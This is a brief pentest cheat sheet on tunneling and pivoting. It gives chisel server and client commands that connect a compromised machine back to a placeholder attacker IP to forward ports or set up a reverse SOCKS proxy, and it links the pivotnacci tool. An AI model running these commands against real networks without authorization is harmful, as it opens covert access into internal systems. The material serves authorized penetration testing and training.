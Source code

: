 ```yaml
---
layout: app
title: "Tunneling"
tags: ["Port Forwarding", "SOCKS", "Tunneling"]
section: "Tunneling"
---
```




# Port Forwarding
  
Start chisel on atack machine

```bash
./chisel server --reverse -p "listen port"
```

# Start communication between Attach machine and Compromise Machine
```bash
./chisel client [attacker IP:attacker Port] R:[local port:IP to expose]:[Port to expose]
```

## Full Tunneling

### Attacker
```bash
chisel server -p 8081 --reverse
```

> Set proxychains to listen on 1080 port
### Target

```powershell
chisel[.exe] client [attacker_ip:listening_port] R:socks
```

# SOCKS

Start chisel on atack machine

```bash
./chisel server --socks5 --reverse [-p "PORT"]
```

# Start communication between Attach machine and Compromise Machine

```bash
./chisel client [attacker IP:port] R:socks
```
# pivotnacci

[https://github.com/blackarrowsec/pivotnacci](https://github.com/blackarrowsec/pivotnacci)
